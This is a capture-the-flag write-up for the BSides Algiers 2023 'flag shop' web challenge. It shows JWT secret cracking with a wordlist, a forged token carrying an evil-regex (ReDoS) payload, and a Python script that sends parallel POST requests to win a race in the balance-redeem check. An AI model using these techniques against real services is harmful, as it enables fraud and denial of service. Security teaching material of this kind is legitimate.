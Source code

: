 # bsides-algiers-2023-flagshop
Writeup for the flag shop challenge in the web category from bsides algiers CTF
# info about the challenge
- Description: They got some fancy flags out there, but that one really takes time to get.
- Solves: 7
- Author: ouxs
- The code provided is in app.py and utils.py
# solution
[home page](./writeup1.png) \
&nbsp;&nbsp;&nbsp;When we first register a user to the website ,we see in the home page 3 flags and to solve the challenge we need to buy the flag that has a price of 40.99.
  
 &nbsp;&nbsp;&nbsp;We can see that we have an initial balance of 10 and an option to redeem a ticket and add 10 to the balance, in order to see the format needed for the tickets we must see the code ,in app.py after checking the /redeem route we see many important informations in this section of the code:
  
```python
ticket = request.form["ticket"]
        token_content = jwt.decode(token, app.config['SECRET_KEY'], algorithms=["HS256"])
        username, regex = token_content["username"], token_content["ticket_regex"]
        if checkRedeem(username) and checkTicket(regex, ticket):
            userRedeem(username)
            return render_template("home.html", flags=flags, message="Ticket redeemed", balance=getBalance(username))
        else:
            return render_template("home.html", flags=flags, message="Can't redeem ticket", balance=getBalance(username))
```

   &nbsp;&nbsp;&nbsp;We can see that jwt is used and it has a ticket_regex in the payload, the regex is generated with the generateticket funtion in utils.py, we can clearly see that if a user sends a valid ticket once he will no longer be able to use the redeem option and thus the maximum balance he can have is 20 so we need to find a way to use the userRedeem function more than once. 
   
   &nbsp;&nbsp;&nbsp;I tried cracking the jwt to get the secret key using john the ripper and the rockyou wordlist to see if i can play with the jwt payload, i found the secret key: chickencurry. 
   
   &nbsp;&nbsp;&nbsp;After some research on how can regex be hard for computers to match against strings i found something called evil regex which are usually used for redos, so i thought of making a regex that can make the web server take long to match with the ticket so all the requests can pass the checkRedeem function before executing userRedeem(). 
   
   &nbsp;&nbsp;&nbsp;I experimented with some regex locally and i made this one ^(a+)+$| and the ticket that i will send is "aaaaaaaaaaaaaaaaaaaaaaaa!", this will match the regex and take sometime because the webserver will try the first regex (a+)+$ which is an evil regex and does not match the ticket so it will test all the possible ways to say that it doesn't match and with the or operator it will match the second regex so we will return a matching object. 
   
   &nbsp;&nbsp;&nbsp;Now after finding the regex we make a jwt with that regex and make a script to send parallel requests using multiprocessing to make our balance bigger than the flag price. 
   
   here is the script:
   ```python
   import requests
from multiprocessing import Process

if __name__ == '__main__':
    # Define the URL to send the POST request to
    url = 'https://vrlmcgzdzytq6fy-flags-shop.insts.bsides.shellmates.club/redeem'

    tok="your token"
    # Define the cookies to send with the request
    cookies = {'token': tok}
    payload="aaaaaaaaaaaaaaaaaaaaaa!"
    # Define the data to send in the request body
    data = {'ticket': payload}
    # Send 5 POST requests in parallel using multiprocessing
    processlist = []
    for _ in range(0, 6):
        process = Process(target=requests.post, kwargs={"url":url,"cookies":cookies ,"data":data})
        processlist.append(process)

    for process in processlist:
        process.start()

    for process in processlist:
        process.join()
```
   &nbsp;&nbsp;&nbsp;Edit your token cookie with the jwt that you have, now you can buy the real flag!
   
